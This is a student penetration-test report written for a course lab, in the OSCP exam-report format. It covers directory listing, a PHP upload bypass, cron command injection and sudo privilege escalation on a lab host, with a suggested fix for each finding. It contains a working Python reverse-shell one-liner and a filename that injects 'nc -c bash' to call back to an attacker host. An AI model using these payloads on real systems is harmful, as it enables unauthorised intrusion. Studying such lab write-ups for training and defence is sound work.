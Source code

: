 ```yaml
---
title: "Offensive Security Checkpoint 01"
author: ["RM87187@fiap.com.br, RM86663@fiap.com.br, RM87101@fiap.com.br, RM87079@fiap.com.br, RM88582@fiap.com.br"]
date: "2022-09-01"
subject: "Pentest report"
subtitle: "OSCP like exam report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
```

# Offensive Security OSCP like exam report


## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The students is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.

# High level summary

I was tasked with conducting an internal penetration test for the offensive security exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to carry out attacks, similar to those of a hacker and try to infiltrate the machine chosen by the teacher.
My overall goal was to assess the target and escalate privilege on the machine.
During internal penetration testing, several alarming vulnerabilities were identified in the target.

## Recommendations

We recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit this system in the future.

# Methodologies

We use a widely adopted approach to performing penetration testing.
Below is a summary of how we were able to identify and exploit each individual vulnerability found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, we were tasked with exploiting the target chosen by teacher.
The specific IP addresses were:

- 192.168.57.5

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.57.5      | **TCP**: 22,80,443\
		    

**Nmap Scan Results:**

![Nmap scan](https://github.com/Alta-Cupula/Offensive/blob/main/imagem1.png)

*Initial Shell Vulnerability Exploited*

When enumerating the HTTP service, a "backup" directory was identified that has a directory listing issue and gave us access to a compressed file called "backup.tar".
![Directory Listing](https://github.com/Alta-Cupula/Offensive/blob/main/imagem2.png)

After unzipping the file we can read the source codes:
![Source code - upload](https://github.com/Alta-Cupula/Offensive/blob/main/uploadphp.png)
![Source code - lib](https://github.com/Alta-Cupula/Offensive/blob/main/libphp1.png)
![Source code - lib](https://github.com/Alta-Cupula/Offensive/blob/main/libphp2.png)

Analyzing the code, we can see that it checks if the file size is smaller than 60,000, checks if a file is actually being uploaded and checks if the file extension matches any of those in a predefined list. For that it uses the "getnameUpload" function, which exists in the "lib.php" file that is imported for use in the upload form.
This "getnameUpload" function creates a variable called "pieces" and splits the filename into parts, the "name" variable takes these pieces and replaces "." by "_" and the variable "ext" takes the last part after the "." to check the extension.
So when PHP executes the function, PHP takes the name of the image, for example "gabriel.png", reads it as an array and separates it into parts.
part 0 = gabriel
part 1 = png
It executes the variable "name" which has the value "gabriel", tries to replace all "." by "_" but as it has none, the value remains "gabriel" and executes the variable "ext" which has the value "png".
Now if we use the example "gabriel.php.png" PHP will separate it into 3 parts:
part 0 = gabriel
part 1 = php
Part 2 = png
The variable "name" still has the value "gabriel", it tries to replace all the "." by "_" but as it doesn't have any value, it's still "gabriel", but this time the variable "ext" will have "php.png" as its value.
We can also see a function called "check_file_type" that is checking the magic bytes of the file being uploaded, which means that just changing the extension in this case would not work, as the file must actually have the magic byte of a png or another file listed in the array earlier.

![Bless](https://github.com/Alta-Cupula/Offensive/blob/main/bless.png)

After creating a PHP shell with the characteristics that we have already identified as being necessary, we get an RCE in the application.
![Uploading](https://github.com/Alta-Cupula/Offensive/blob/main/requisicao.png)
![RCE](https://github.com/Alta-Cupula/Offensive/blob/main/rce.png)

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.57.4",6123));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' ```

Using python we got the reverse shell.
![Reverse](https://github.com/Alta-Cupula/Offensive/blob/main/reverse.png)


**Vulnerability Explanation: In this case, there were several vulnerabilities that led to the initial compromisement of the target, such as information disclosure due directory listing and unrestricted file upload.**

**Vulnerability Fix:
Directory listing can be disabled in the webserver configuration file.
To solve the information disclosure you can change the permission of the file "backup.tar".
Ways to fix unrestricted file upload issue:
- The file types allowed to be uploaded should be restricted to only those that are necessary for business functionality.
- Never accept a filename and its extension directly without having an allow list filter.
- The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.**

**Severity: Critical**

**user.txt Proof Screenshot**
![Guly](https://github.com/Alta-Cupula/Offensive/blob/main/gulyflag.png)


#### Privilege Escalation

When accessing the user directory "guly" we do not have permission to read the file "user.txt", however reading the file "crontab.guly" we can see that there is a configuration that executes the file "/home/guly/check_attack. php" every 3 minutes.
![Crontab](https://github.com/Alta-Cupula/Offensive/blob/main/crontab.png)
![Chkattack](https://github.com/Alta-Cupula/Offensive/blob/main/chk_attack.png)

So when reading the file check_attacks.php we can see a variable "$path" that has the static value defined as "/var/www/html/uploads", however the variable "value" is created receiving the input of "files".
The variable "files" is using PHP's "scandir" function passing the value "." meaning it wants to list all files and directories in THIS directory. Which means that if we create a file putting malicious content in the name PHP will probably try to execute it.
So, creating a file called ";nc -c bash 192.168.57.4 9999;" we can get a reverse shell as guly because in line code would be: "exec("nohup /bin/rm -f /var/www/html/uploads;nc -c bash 192.168.57.4 9999; > /dev/null 2>&1 &")"
![Malicious file](https://github.com/Alta-Cupula/Offensive/blob/main/arquivomalicioso.png)
![Reverse as guly](https://github.com/Alta-Cupula/Offensive/blob/main/reverseasguly.png)
![Guly](https://github.com/Alta-Cupula/Offensive/blob/main/gulyflag.png)

After being as guly we run the command "sudo -l" and notice that there is a script that we have permission to run as root.
![SUID file](https://github.com/Alta-Cupula/Offensive/blob/main/suid.png)

The script contains some variables with static content but others that are received by user input, and when it comes to network script where the variable format is "test=gabriel", then if we add a space after the term "gabriel" and we write, that term will be executed.
![Privesc](https://github.com/Alta-Cupula/Offensive/blob/main/privesc.png)

*Additional Priv Esc info*

**Vulnerability Exploited: Command injection in the "check_attacks.php" script and abuse of network script with SUID.**

**Vulnerability Explanation: These vulnerabilities allowed command injection only by not handling user input and reflecting it directly in the script **

**Vulnerability Fix:Fix check_attacks.php handling with user input**

**Severity: Critical**

**Proof Screenshot Here:**
![Privesc](https://github.com/Alta-Cupula/Offensive/blob/main/privesc.png)

